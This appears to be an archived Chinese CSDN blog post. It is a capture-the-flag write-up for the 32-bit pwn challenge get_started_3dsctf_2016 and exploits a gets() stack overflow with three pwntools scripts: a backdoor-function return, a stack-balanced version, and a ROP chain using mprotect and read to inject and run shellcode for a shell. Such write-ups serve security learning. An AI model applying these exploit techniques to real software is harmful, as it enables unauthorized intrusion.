





<!--yml
category: 未分类
date: 2022-04-26 14:38:22
-->

# get_started_3dsctf_2016 题解___lifanxin的博客-CSDN博客_get_started_3dsctf_2016

> 来源：[https://blog.csdn.net/A951860555/article/details/111030289](https://blog.csdn.net/A951860555/article/details/111030289)

# 知识点关键字

栈溢出，ROP + shellcode

# 样本

[get_started_3dsctf_2016样本下载](https://download.csdn.net/download/A951860555/13650960)

# 运行

检查文件:
  32位小端程序；
  开启了NX保护，栈保护未开启。

运行程序：
  程序很简单，提示输入一段文字。


# 静态分析

使用IDA查看程序：

  主函数很简单，gets()函数存在明显的栈溢出漏洞。然后进一步观察程序，我们可以在.text段找到一个后门程序get_flag()，如下图所示：

  该函数局部变量全用寄存器存储，在if语句中，成功判断a1和a2值后就会打开flag.txt文件，然后接下来的汇编代码功能就是打印该文件中的内容。

# 求解思路

## 本地可以运行，远端不行的解法

  整个题目到这里思路已经明确，直接给出下面的exp：

```
from pwn import *

context(os="linux", arch="i386", log_level="debug")
q = process("./get_started_3dsctf_2016")

payload = cyclic(0x38) + p32(0x080489B8)
q.sendline(payload)
q.recvline() 
```


  上面的结果是在本地直接运行的，这里是可以在本地拿到flag，但实际操作中无法在远程上拿到flag。无法拿到的原因是因为我们没有维持栈的平衡，导致程序异常退出，但为啥本地异常退出可以回显文本中的字符串而远程不可以，这就不太清楚，有可能远端做了限制。

## 简单解法 – 利用后门函数

  针对上面远端无法拿到结果的问题，这里给出新的解法，也就是维护好栈，使得执行完get_flag()后门函数后通过exit()函数正常退出。

```
from pwn import *

context(os="linux", arch="i386", log_level="debug")
q = process("./get_started_3dsctf_2016")

payload = cyclic(0x38) + p32(0x080489A0) + p32(0x0804E6A0)

payload += p32(0x308CD64F) + p32(0x195719D1)
q.sendline(payload)
q.recvline() 
```

## ROP解法 – 直接获取shell

  另外网上有前辈给出了更复杂，也更暴力的解法，大家可以学习一下。

```
from pwn import *

context(os="linux", arch="i386", log_level="debug")
q = process("./get_started_3dsctf_2016")
elf = ELF("./get_started_3dsctf_2016")

mprotect_addr = elf.symbols["mprotect"]
read_addr = elf.symbols["read"]

start_addr = 0x80ea000

pop_3_ret = 0x0804f460

payload = cyclic(0x38)
payload += p32(mprotect_addr)
payload += p32(pop_3_ret)
payload += p32(start_addr)
payload += p32(0x1000)
payload += p32(0x7)     
payload += p32(read_addr)
payload += p32(pop_3_ret)
payload += p32(0)
payload += p32(start_addr)
payload += p32(0x100)
payload += p32(start_addr)
shellcode = asm(shellcraft.sh())

q.sendline(payload)
sleep(0.1)
q.sendline(shellcode)
q.interactive() 
```

  分析一下上面的解题思路：首先利用了mprotect函数修改内存权限，然后利用read读取shellcode到该内存区域。整体是利用了ROP链的思想，由于开启了NX保护，所以不断利用retn返回地址来达到调用函数，注入shellcode的目的。
  mprotect第一个参数为需要修改的内存起始地址，这个地址也就是我们接下来shellcode将要写入的地方；第二个参数为修改的内存大小，一般取内存的整数页；第三个参数为0x7，表示该内存拥有可读可写可执行权限。read函数第一个参数是打开的文件描述符，0表示输入；第二参数指明读取的数据存放的内存起始位置；第三个参数指明最大读取的字节数。
  而每次调用函数后都是返回到pop_3_ret中执行，是用该段汇编代码弹出压入栈中的三个参数来达到栈平衡。该代码的地址不唯一，在程序中找到相应弹出三个栈的操作再加retn的汇编代码就行。

# 总结

  以上就是该pwn题的解法汇总和分析，总的说来第一种解法不难，但需要让函数正常退出才行。第二种ROP解法，操作和思维对初学者来说略显复杂，但只要熟练掌握后也是一种非常不错且常规的解法和思路。希望大家仔细分析一波，从中有所获，有所得。